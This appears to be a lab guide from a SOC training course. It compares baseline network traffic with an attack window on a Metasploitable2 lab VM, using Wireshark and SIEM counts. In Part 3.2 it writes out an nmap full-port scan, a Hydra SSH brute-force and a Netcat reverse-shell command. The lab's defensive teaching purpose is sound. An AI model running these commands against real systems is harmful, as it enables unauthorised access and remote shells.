

# Lab 9 — Network Baseline vs Attack Deviation Report

## Lab Overview

**Purpose:** Capture a clean baseline of normal network traffic, then deliberately re-run a condensed mix of attacks from earlier labs against the same network, and formally document how packet flow and port usage **deviate** from that baseline. This is the capstone of the course — it doesn't teach a new attack technique; it teaches the foundational SOC skill everything else in this course has quietly depended on: knowing what *normal* looks like well enough to recognize *abnormal* without needing a signature to tell you.

**Why this matters in real SOC work:** Every detection you've built in Labs 1–8 relied on a threshold, a pattern, or a known technique. But a huge amount of real-world threat hunting doesn't start with "does this match a known bad pattern" — it starts with "does this look different from how this network usually behaves." Baselining is unglamorous, genuinely underrated work, and it's also one of the clearest signs of a mature security program: an organization that has never established what normal looks like has no way to notice a slow, quiet compromise that never trips a single threshold-based alert. This lab makes you do that work explicitly, once, in a small controlled environment, so the concept is concrete rather than abstract.

**What you'll produce:** A structured comparison report — not just screenshots, but a real side-by-side metrics table — contrasting a clean baseline capture against an attack-window capture, cross-referenced against every SIEM pipeline you've built across the entire course.

**Tools used:**

| Tool | Role | Runs on |
|---|---|---|
| Wireshark | Captures both the baseline and attack-window traffic | Kali |
| Nmap, Hydra, Netcat | Regenerate a condensed attack sample (reusing Labs 1–3) | Kali |
| Elasticsearch / Kibana | Cross-reference packet findings against existing log pipelines | ELK-SIEM |

## Architecture for This Lab



---

## Part 1 — Capture the Baseline

The goal here is to generate traffic that's genuinely representative of "nothing suspicious happening" — not an empty capture, since an empty network isn't a realistic baseline either.

### 1.1 Start the Capture

```bash
sudo wireshark
```

Interface `eth0`, capture filter `host 192.168.56.103`, **Start**.

### 1.2 Generate Normal Traffic (About 3–5 Minutes)

Perform a small, deliberately ordinary sequence of actions — nothing attack-related:

```bash
ping -c 5 192.168.56.103
ssh metasploitable
```

Once connected, do a little real work rather than immediately disconnecting:

```bash
whoami
ls -la
df -h
exit
```

Then load a normal page in DVWA (not an attack page):

```bash
curl http://192.168.56.103/dvwa/
```

### 1.3 Stop and Save

Stop the capture. **File → Save As** → `baseline.pcapng`.

> 📸 **CAPTURE THIS:** Wireshark showing the completed baseline capture (packet list, any reasonable view).
> Save as `lab09-01-baseline-capture.png` → ``

---

## Part 2 — Analyze the Baseline

With `baseline.pcapng` open in Wireshark:

### 2.1 Protocol Hierarchy

**Statistics → Protocol Hierarchy**. Note the percentage breakdown across protocols (TCP, ICMP, HTTP, SSH, etc.).

### 2.2 Conversations

**Statistics → Conversations → TCP tab**. Note: number of distinct conversations, and the destination ports involved.

### 2.3 Endpoints

**Statistics → Endpoints**. Note the total packet count and byte count.

Record all of this — you'll need these exact numbers for Part 5's comparison table.

> 📸 **CAPTURE THIS:** The Protocol Hierarchy window for the baseline.
> Save as `lab09-02-baseline-protocol-hierarchy.png` → ``

---

## Part 3 — Capture the Attack Window

### 3.1 Start a Fresh Capture

Same setup as Part 1.1 — new capture, same filter, **Start**.

### 3.2 Run a Condensed Attack Sequence

This deliberately compresses techniques from three earlier labs into one short window:

**Recon (Lab 2 technique):**

```bash
nmap -sS -p- 192.168.56.103
```

**Brute-force (Lab 1 technique):**

```bash
hydra -l msfadmin -P ~/passwords.txt ssh://192.168.56.103 -t 4
```

**Reverse shell (Lab 3 technique)** — in one terminal:

```bash
nc -lvnp 4444
```

In another, on Metasploitable2:

```bash
ssh metasploitable
nc -e /bin/bash 192.168.56.101 4444
```

Run a couple of commands in the shell (`whoami`, `id`), then disconnect.

### 3.3 Stop and Save

Stop the capture. **File → Save As** → `attack.pcapng`.

> 📸 **CAPTURE THIS:** Wireshark showing the completed attack-window capture.
> Save as `lab09-03-attack-capture.png` → ``

---

## Part 4 — Analyze the Attack Window

Repeat exactly the same three checks from Part 2, now against `attack.pcapng`:

- **Statistics → Protocol Hierarchy**
- **Statistics → Conversations → TCP tab**
- **Statistics → Endpoints**

> 📸 **CAPTURE THIS:** The Protocol Hierarchy window for the attack window, for direct visual comparison against Part 2's screenshot.
> Save as `lab09-04-attack-protocol-hierarchy.png` → ``

---

## Part 5 — Build the Comparison Table

This is the lab's central deliverable. Fill in real numbers from Parts 2 and 4:

| Metric | Baseline | Attack Window | Deviation |
|---|---|---|---|
| Total packets | | | |
| Total distinct TCP conversations | | | |
| Distinct destination ports touched | | | |
| Dominant protocol (% of traffic) | | | |
| SYN-only (never-completed) connections | | | |
| Capture duration | | | |

The port-count and SYN-only-connection rows should show the starkest deviation — baseline traffic touches a small handful of expected ports with fully-completed connections; the attack window touches dozens to thousands of ports (from the scan) with a large proportion of incomplete handshakes.

> 📸 **CAPTURE THIS:** No new screenshot needed — this table is built from data already captured in Parts 2 and 4.

---

## Part 6 — Cross-Reference Against Every SIEM Pipeline

This closes out the whole course: check every index built across all nine labs for evidence of this specific attack window, in one pass.

On ELK-SIEM:

```bash
curl "http://192.168.56.102:9200/portscan-logs-*/_count"
curl "http://192.168.56.102:9200/ssh-auth-logs-*/_count?q=event_outcome:failure"
```

Compare the counts before and after this lab's activity (if you noted the counts at the start of this lab, or simply confirm the most recent timestamps align with Part 3.2's attack window).

> 📸 **CAPTURE THIS:** Terminal showing both count queries.
> Save as `lab09-05-siem-cross-reference.png` → ``

**Note the asymmetry explicitly in your report:** the reconnaissance and brute-force portions of this attack window are fully visible in your SIEM (Labs 1 and 2's pipelines), while the reverse shell portion is not (consistent with Lab 3's finding) — this lab's packet-level baseline comparison catches **all three** techniques equally, while your log-based SIEM only catches two of them. That contrast is itself one of the most important findings to state plainly in your final report.

---

## Part 7 — Document the Finding

This is the final write-up of the course.

- [`Lab9-Investigation-Writeup-Template.docx`](./Lab9-Investigation-Writeup-Template.docx) — the clean, fillable Word document. No instructions inside it.
- [`WRITEUP-TEMPLATE.md`](./WRITEUP-TEMPLATE.md) — a guide explaining exactly where in this lab to find the information each field is asking for.

---

## Media Checklist for This Lab

| Filename | What it shows |
|---|---|
| `lab09-01-baseline-capture.png` | Completed baseline traffic capture |
| `lab09-02-baseline-protocol-hierarchy.png` | Baseline protocol hierarchy breakdown |
| `lab09-03-attack-capture.png` | Completed attack-window capture |
| `lab09-04-attack-protocol-hierarchy.png` | Attack-window protocol hierarchy breakdown |
| `lab09-05-siem-cross-reference.png` | SIEM index counts cross-referenced |

## Troubleshooting

- **Baseline traffic looks too sparse to compare meaningfully:** add a bit more variety — a second `ping`, an extra `curl` to a different DVWA page — the goal is a believable few minutes of normal use, not a single packet.
- **Attack-window capture doesn't show the reverse shell traffic:** confirm your Netcat listener (Part 3.2) was started *before* triggering the connection from Metasploitable2, same requirement as Lab 3.
- **Nmap `-p-` full scan takes a long time:** this is expected and consistent with Lab 2/4's full scans — let it run to completion, or narrow to `--top-ports 100` if you want a faster capture window without losing the port-diversity signal this lab is measuring.
- **SIEM counts in Part 6 don't seem to include this session's activity yet:** allow a few seconds for the log pipeline's normal forwarding latency, then re-run the count queries.

## Completion Checklist

- [ ] Baseline traffic captured and saved
- [ ] Baseline analyzed (protocol hierarchy, conversations, endpoints)
- [ ] Condensed attack sequence executed (recon + brute-force + reverse shell)
- [ ] Attack-window traffic captured and saved
- [ ] Attack window analyzed the same way as the baseline
- [ ] Comparison table completed with real numbers
- [ ] SIEM cross-reference completed, visibility asymmetry noted explicitly
- [ ] All 5 screenshots captured and named per convention
- [ ] Both `.pcapng` files saved
- [ ] Final investigation write-up completed using the template

---

## Course Complete

Once this checklist is done, all 9 labs are finished. Your course repository now contains a full, working SOC lab environment plus nine documented investigations — a genuinely substantial portfolio piece. See the root [`README.md`](../README.md) for the GitHub publishing checklist.
